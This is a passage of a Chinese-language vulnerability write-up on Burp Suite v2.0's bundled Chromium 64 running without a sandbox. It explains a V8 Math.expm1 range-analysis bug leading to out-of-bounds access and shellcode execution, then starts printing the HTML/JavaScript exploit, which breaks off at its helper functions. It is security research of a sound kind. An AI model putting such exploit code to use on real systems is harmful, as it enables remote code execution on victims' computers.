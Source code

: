     // Renderer进程
    C:\Users\user\AppData\Local\JxBrowser\browsercore-64.0.3282.24.unknown\browsercore32.exe --type=renderer --log-level=2 --no-sandbox --disable-features=LoadingWithMojo,browser-side-navigation --disable-databases --disable-gpu-compositing --service-pipe-token=C06434E20AA8C9230D15FCDFE9C96993 --lang=zh-CN --crash-dump-dir="C:\Users\user\AppData\Local\JxBrowser" --enable-pinch --device-scale-factor=1 --num-raster-threads=1 --enable-gpu-async-worker-context --disable-accelerated-video-decode --service-request-channel-token=C06434E20AA8C9230D15FCDFE9C96993 --renderer-client-id=2 --mojo-platform-channel-handle=2564 /prefetch:1
    

从进程运行参数分析得知，Chromium进程以headless模式运行、关闭了沙箱功能、随机监听一个端口（用途未知）。

## 三、漏洞利用

Chromium组件的历史版本几乎都存在着1Day漏洞风险，特别是在客户端软件一般不会维护升级Chromium版本，且关闭沙箱功能，在没有沙箱防护的情况下漏洞可以无限制利用。

Burp Suite
v2.0内置的Chromium版本为64.0.3282.24，该低版本Chromium受到多个历史漏洞影响，可以通过v8引擎漏洞执行shellcode从而获得PC权限。

以Render功能演示，利用v8漏洞触发shellcode打开计算器（此处感谢Sakura提供漏洞利用代码）

这个漏洞没有公开的CVE
ID，但其详情可以在[这里](https://bugs.chromium.org/p/chromium/issues/detail?id=880207)找到。  
该漏洞的Root Cause是在进行`Math.expm1`的范围分析时，推断出的类型是`Union(PlainNumber,
NaN)`，忽略了`Math.expm1(-0)`会返回`-0`的情况，从而导致范围分析错误，导致JIT优化时，错误的将边界检查CheckBounds移除，造成了OOB漏洞。

    
    
    <html>
    <head></head>
    </body>
    <script>
    function pwn() {
        var f64Arr = new Float64Array(1);
        var u32Arr = new Uint32Array(f64Arr.buffer);
    
        function f2u(f) {
            f64Arr[0] = f;
            return u32Arr;
        }
    
        function u2f(h, l)
        {
            u32Arr[0] = l;
            u32Arr[1] = h;
            return f64Arr[0];
        }
    
        function hex(i) {
            return "0x" + i.toString(16).padStart(8, "0");
        }
    
        function log(str) {
            console.log(str);
            document.body.innerText += str + '\n';
        }
    